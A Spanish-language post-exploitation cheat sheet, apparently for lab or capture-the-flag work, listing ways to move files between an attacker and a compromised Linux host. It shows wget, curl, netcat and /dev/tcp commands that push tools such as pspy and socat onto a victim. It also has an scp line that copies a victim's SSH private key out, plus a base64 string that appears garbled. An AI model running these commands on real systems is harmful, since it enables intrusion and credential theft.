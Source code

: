 ```yaml
---
title: "Transferir Archivos (Linux)"
date: 2024-10-20 00:00:00 +0800
categories: cheatsheets
tags: privesc
description: Formas de transferirnos los archivos a nuestra máquina atacante a través de la máquina víctima y viceversa en Linux.
---
```


## Definición

Cuando hemos ganado acceso a la máquina víctima es posible que llegue el momento en cual debemos transferirnos archivos a la máquina víctima para aplicar un mayor reconocimiento dentro de esta y así poder aplicar Técnicas de escala de privilegios (Linux), para que dicho proceso de Transferencia sea más sencillo he creado el siguiente recurso el cual recoge los principales métodos de transferencia para máquina Linux.
> 
> *Accediendo al siguiente recurso podemos encontrar de forma más información sobre las transferencias de archivos <a href="https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/" target="_blank">IronHackers</a>*.

___
## Tipos

> *Cuando no se especifique el caso del **Atacante** será porque se puede hacer con un simple servidor **HTTP**, ya sea con **python**, **php** o de cualquier otra forma. Véase <a href="#">Servidores HTTP</a>.*

### Wget
#### Víctima

```bash
wget http://<direcciónIP>/<recurso>
```

___
### Curl
#### Víctima

> Estaremos añadiendo el parámetro `-O` para cuando queremos mantener el nombre del archivo, y añadiremos una `-o` para cuando queramos cambiarle el nombre

```bash
curl http://<direcciónIP>/<recurso> -O
curl http://<direcciónIP>/<recurso> -o <nombrepersonalizado>
```

___
### SCP

> *Para este caso debemos de tener acceso a la máquina a través del servicio **SSH**.*

#### Atacante

```bash
scp /home/terror/Descargas/socat juan@172.17.0.2:/tmp
```

> *En el caso particular que queremos descargarnos a nuestra máquina de atacante un archivo de la máquina víctima usando SCP podemos hacer:*

```bash
scp juan@172.17.0.2:/home/juan/.ssh/id_rsa
```

____
### /dev/tcp
#### Atacante

```bash
nc -nlvp 443 < pspy
```

#### Víctima

```bash
cat < /dev/tcp/192.168.18.10/443 > pspy
```

![Pasted image 20240826192540.png](<../assets/images/posts/2024-10-20-transferirarchivos/Pasted image 20240826192540.png>)

___
### base64
#### Víctima

```bash
echo -n "QmVuIHNpc3RlbWEgZGUgbnVtZXJhY2nzbiBwbpY2lvbmFsIHF1ZSB1c2ENjQgY2tbyBiYXNLiYXlvciBwb3RlbmNpYSBxdWUgcHVlZGUgc2VyIHJlcHJlc2VudGFkYSB1c2FuZG8g+m5pY2Ft"; echo | base64 -d
```

___
### NetCat
#### Atacante

```bash
nc 172.17.0.2 443 < /home/terror/Descargas/socat
```
#### Víctima

```bash
nc -nvlp 443 > socat
```

___
## Comprobar integridad con md5sum

> Gracias al comando `md5sum` podemos comprobar la integridad de los archivos transferidos y saber si se han corrompido durante dicha Transferencia.

```bash
md5sum <nombrearchivo>
```


![Pasted image 20240826192602.png](<../assets/images/posts/2024-10-20-transferirarchivos/Pasted image 20240826192602.png>)